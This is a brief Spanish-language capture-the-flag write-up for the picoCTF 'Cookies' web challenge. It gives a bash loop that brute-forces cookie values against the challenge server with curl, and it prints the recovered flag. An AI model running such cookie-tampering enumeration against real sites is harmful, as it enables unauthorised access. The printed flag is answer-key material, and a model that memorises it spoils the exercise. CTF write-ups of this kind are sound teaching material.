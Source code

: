 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)
## Solución
Creamos un bucle de control con el link que se nos da
```
for i in {0..20}; do curl -s http://mercury.picoctf.net:17781/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>

```

## Notas adicionales

## Referencias